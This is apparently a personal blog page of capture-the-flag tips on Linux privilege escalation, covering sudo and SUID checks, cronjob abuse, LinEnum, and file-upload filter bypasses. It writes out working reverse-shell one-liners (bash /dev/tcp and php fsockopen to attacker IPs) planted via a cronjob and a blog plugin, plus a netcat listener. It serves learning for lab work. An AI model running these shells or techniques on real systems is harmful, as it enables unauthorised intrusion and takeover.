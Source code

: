 ```yaml
---
layout: page
title: Privilege Escalation
subtitle: The many different ways to escalate your privileges
image: /assets/fe.ico
description: The MANY different ways to escalate privileges
permalink: /tipsandtricks/privilegeescalation/
#hero_image: /assets/fe.ico
#hero_height: is-fullheight
---
```


# Introduction
Alrighty, so there's a lot that can be said here. I'm unsure how far into this I should go before I lose my mind alongside you, so this might be briefer than it could be. We'll see.
<br><br>
To better qualify the situation - privilege escalation implies you already have some type of access to a system, say through a basic end user that had a poor password. The following scenarios imply you already have a shell of some kind, and you are looking to further exploit that and get to the point where you are running the shell as an admin / root, or at least can execute commands as one.
<br><br><br>
# Let's start with sudo -l and SUID permissions
One of the go to commands once you've established yourself within a shell on a system is a quick `sudo -l`. It takes two seconds to type and another thirty seconds to check if anything from those results might be useful. What that does is list the commands that you can run as sudo, on a properly configured system this should be all but zero for normal users.
<br><br>
Let's say there is an improperly configured system that allows you to run `/usr/bin/less` with sudo rights. This could lead to you reading files that you should not have access to. The easiest way to discover if there is a way to exploit whatever is listed from the `sudo -l` command is to reference [gtfobins](https://gtfobins.github.io/). They have a _massive_ library of ways to bypass restrictions and escalate your privileges - their site will be referenced multiple times throughout my [CTF Exploits](/blog) page.
<br><br>
On a very similar note, we can use files that have the SUID permissions (can run files with the owner's privileges) to escalate our privileges. We can check what files like this exist by entering `find / -perm -u=s -type f 2>/dev/null`. This is very similar to any other find command, what this searches for are files that contain those SUID permissions. And again, if this returns you a list reference gtfobins for any known exploits from them.
<br><br>
Manually checking each result from the SUID permissions can be tedious, however, and others have created scripts that can automate this process for us. I found [this page](https://null-byte.wonderhowto.com/how-to/find-exploit-suid-binaries-with-suid3num-0215789/), which has a script that does exactly this and will inform you of anything that might be vulnerable. This is similar to the LinEnum script I will mention down below. You can try directly curling the script onto the target machine or just download it and start a web server locally and transfer it that way.<br><br>
<br><br><br>

# Uploading reverse tcp shells
There are numerous ways you can start a reverse shell, I've modified plugins for a blog, replaced a file that was used by a cronjob, there's a range of ways.
<br><br>
A great site for this is [pentestmonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet), as they offer some quick commands that, once edited for your IP address and port, can start those shells via bash, perl, python, php and other methods. They also have more material on that side beyond just how to start reverse shells, including stuff relating to SQL injection and more notes on John.
<br><br>
Back to the reverse shell side of things, let's use the example I mentioned with modifying the file used by the cronjob. Essentially I was able to edit in the following command to a cronjob that executed every minute, and what I appended to that file was the following:<br>
`bash -i >& /dev/tcp/10.18.91.219/8000 0>&1`<br><br>
While in another tab I had a netcat listener on that same port: `nc -lvnp 8000`
<br><br>
Basically what this two step process is saying is:<br>
- First, upload a reverse shell somehow, that will somehow be called (examples given here were as activated plugins or by a cronjob)
- And then second, you need to be listening on the same port that the reverse shell is trying to reach you at. When that command executes it will try to initiate that connection over port `8000` at my IP address of `10.18.91.219`. If I am not listening over that port I will miss the connection<br><br>

The other example was with the plugin, and although I forget exactly how it was worded, I do recall I was able to gain a foothold into their website editor and from there I could edit their plugins. I edited one of their already active plugins with something like:<br>
`php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'`<br><br>
And then curled the location for that specific php plugin, which started the reverse shell, and my netcat listener was already waiting.<br><br>

There are many different ways you can initiate that reverse shell, it all comes down to what you have access to, what you should modify, and your permissions for those files.
<br><br><br>

# Upgrading / starting shells
Sometimes you might find that you have established a shell to a machine, but it is not the best or maybe not as stable as you would like. Some simple ways to do this include through python and perl, although there are more.
<br><br>
With python that would be:<br>
`python -c 'import pty;pty.spawn("/bin/bash")'`<br>
This extends to v3.x as well. If you're unsure what is installed, run a quick `which python`.
<br><br>
Through perl:<br>
`perl -e 'exec "/bin/sh";'`
<br><br><br>

# Reoccuring jobs / tasks on machines
Also known as cronjobs, although there are different kinds. Sometimes these will run exploitable or editable tasks on a schedule. If you can find a way to change them directly or resources / modules they interact with, this can be yet another way to gain access to more information or escalate your access. On most linux distributions you will find this at `/etc/crontab`. You can access this with a text editor or with `crontab -e`, or use the `-l` flag instead to just view them.
<br><br><br>

# LinEnum
This is another tool that can be found on GitHub, and can provide useful information on a target machine if you can get the permissions needed to run it. It does a lot of the things that are mentioned on this page automatically and generates a report for you to view later. Once you are on the machine you can get the file via wget or curl to the `/tmp` directory and work from there. The bash file is located [here](https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh).<br><br>
Note: You will likely need to `chmod +x` that file to give it executable permissions.
<br><br><br>

# Other
Anytime you can find ssh keys, grab 'em. Reference the [bruteforcing](/tipsandtricks/bruteforcing/) page for ways to crack those and use them to your advantage.
<br><br>
As mentioned before, sometimes gaining that next foothold includes uploading e.g. php files to start a reverse tcp shell with yourself. However, depending where you upload they might restrict you to only certain types of files, or disallow certain types of files. Some ways to _maybe_ get around this is capitilize letters like .Php or .phP instead of .php, maybe see if it'll accept a .phtml file, etc. You get the idea. Security controls are meant to secure something otherwise not secure (duh), but that doesn't mean they account for everything, even if that means something as simple as denying file types by certain extensions only.
<br>
